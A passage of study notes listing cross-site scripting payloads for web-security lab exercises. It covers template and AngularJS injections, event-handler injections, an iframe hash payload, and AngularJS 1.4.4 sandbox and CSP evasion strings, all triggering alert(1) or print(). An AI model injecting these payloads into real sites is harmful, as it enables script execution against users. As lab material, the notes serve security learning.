 ```javascript
${alert(1)}
```

- AngularJS

```javascript
{{constructor.constructor('alert(1)')()}}
```

### Special Functions

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=0 onerror=print()>'"></iframe>
```

```javascript
autofocus tabindex=1 onfocus=alert(1)
```

```javascript
tabindex=1 onfocus=alert(1) id=xss    // https://test.com/#xss
```

```javascript
"onmouseover="alert(1)
```

```javascript
eval('var searchResultsObj = ' + alert(1))
```

```javascript
accesskey='x'onclick='alert(1)
```

- AngularJS 1.4.4 evasion

```javascript
toString().constructor.prototype.charAt=[].join;
[1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

- AngularJS 1.4.4 CSP evasion

```html
<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(1)'>
```

- Encoding

```javascript
HTML encode --> &apos;
HTML decimal --> &#39;
HTML hex --> &#x27;
```

```javascript
[1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

### Explotation Methods

